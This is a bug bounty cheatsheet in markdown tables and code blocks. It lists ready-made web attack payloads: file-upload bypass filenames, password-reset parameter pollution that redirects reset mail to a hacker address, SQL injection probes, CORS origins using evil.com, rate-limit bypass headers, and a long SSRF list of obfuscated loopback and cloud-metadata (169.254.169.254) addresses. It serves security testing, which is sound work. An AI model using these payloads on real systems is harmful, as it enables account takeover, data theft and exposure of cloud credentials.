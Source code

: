 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

| Payload | Description |
|----------|-------------|
|/?q=1'|simple quote|
|/?q=1"|double quote|
|/?q=[1]|array value|
|/?q[]=1|array parameter|
|/?q=1\`|backquote|
|/?q=1\\ |escape backslash|
|/?q=1/\*'\*/|comment simple quote|
|/?q=1/\*!1111'\*/|comment simple quote|
|/?q=1'\|\|'asd'\|\|'|string concatenation|
|/?q=1' or '1'='1|or statement with quotes|
|/?q=1 or 1=1| or statement without quotes|
|/?q='or''='|or statement no spaces|

## CORS

| Payload | Description |
|----------|-------------|
|evil.com|attacker's fqdn|
|company.evil|attacker's tld|
|evil.company.tld|attacker's subdomain|

## Recon

| Technique | Payload |
|----------|-------------|
|google dork|site:http://ideone.com \| site:http://codebeautify.org \| site:http://codeshare.io \| site:http://codepen.io | site:http://repl.it \| site:http://justpaste.it \| site:http://pastebin.com \| site:http://jsfiddle.net | site:http://trello.com "$TARGET"|

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
- Check reverse search in API
> GET /api/account?email=X

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password
